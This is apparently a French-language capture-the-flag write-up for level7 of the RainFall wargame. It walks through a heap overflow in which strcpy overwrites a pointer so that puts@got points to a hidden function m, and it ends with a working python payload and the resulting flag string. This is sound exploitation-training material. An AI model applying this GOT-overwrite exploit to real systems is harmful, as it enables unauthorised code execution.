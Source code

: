 # Level7

```
level7@RainFall:~$ ./level7
^CSegmentation fault (core dumped)
level7@RainFall:~$ ./level7 coucou
^CSegmentation fault (core dumped)
level7@RainFall:~$ ./level7 coucou coucou
~~
```
Ce nouveau programme prend en parametre deux arguments donnés au programme.


Une fonction "m" n'est pas appelée par le programme main. Le main alloue 8 char pour chaque argument passés, sur le tas avec la fonction strcpy. Nous allons exploiter un overflow.
Commençons par vérifier a quel endroit de la mémoire nous pouvons écraser l'adresse de retour.

```
level7@RainFall:~$ /home/user/level7/level7 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYY
ZZZZ aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
level7@RainFall:~$ dmesg | grep "segfault"
[28297.550418] level7[9471]: segfault at 46464646 ip b7eb02b9 sp bffff614 error 6 in libc-2.15.so[b7e2c000+1a3000]
```
l'offset est 20 (46464646 = FFFF)

Puis nous inspectons la fonction puts utilisée après:
```
0x080485f7 <+214>:	call   0x8048400 <puts@plt>

(gdb) x/i 0x08048400
   0x8048400 <puts@plt>:	jmp    *0x8049928
(gdb) x/x 0x8049928
   0x8049928 <puts@got.plt>:     0x08048406
```
Nous allons utiliser le puts final : nous savons que le programme stocke l'appel de chaque fonction dans la GOT (Global Offset Table) ce qui permet au prochains appels de cette fonction, de ne pas aller chercher a chaque fois dans la bibliotèque standard C.

Nous allons ecraser la valeur du puts (qui pointe vers le puts de la GOT) pour sauter vers la fonction m.


```
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:     push   %ebp
   0x08048522 <+1>:     mov    %esp,%ebp
   0x08048524 <+3>:     and    $0xfffffff0,%esp
   0x08048527 <+6>:     sub    $0x20,%esp
   0x0804852a <+9>:     movl   $0x8,(%esp)
   0x08048531 <+16>:    call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:    mov    %eax,0x1c(%esp)
   0x0804853a <+25>:    mov    0x1c(%esp),%eax
   0x0804853e <+29>:    movl   $0x1,(%eax)
   0x08048544 <+35>:    movl   $0x8,(%esp)
   0x0804854b <+42>:    call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:    mov    %eax,%edx  <=== break ici
   0x08048552 <+49>:    mov    0x1c(%esp),%eax
   0x08048556 <+53>:    mov    %edx,0x4(%eax)
   0x08048559 <+56>:    movl   $0x8,(%esp)
   0x08048560 <+63>:    call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:    mov    %eax,0x18(%esp)
   0x08048569 <+72>:    mov    0x18(%esp),%eax
   0x0804856d <+76>:    movl   $0x2,(%eax)
   0x08048573 <+82>:    movl   $0x8,(%esp)
   0x0804857a <+89>:    call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:    mov    %eax,%edx <=== break ici

End of assembler dump.
(gdb) b*0x08048550
Breakpoint 1 at 0x8048550
(gdb) b *0x0804857f
Breakpoint 2 at 0x804857f

(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level7/level7

Breakpoint 1, 0x08048550 in main ()
(gdb) i r
eax            0x804a018   <=== adresse du malloc de strcpy1     134520856

(gdb) c
Continuing.

Breakpoint 2, 0x0804857f in main ()
(gdb) i r
eax            0x804a038     <=== adresse du malloc de strcpy2    134520888

```

Les deux buffer des array1[1] et array2[1] sont proche en memoire, en ecrivant a (buffer strcpy1) + 20, l'adresse de puts, on ecrase l'adresse du buffer de copy (array2) du 2e strcpy par l'adresse du puts, et on y ecris l'adresse de la fonction m.

Lors de l'appel de puts, c'est maintenant la fonction m qui sera appelee.

```
level7@RainFall:~$ /home/user/level7/level7 $(python -c 'print ("A"*20 + "\x28\x99\x04\x08")') $(python -c 'print ("\xf4\x84\x04\x08")')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

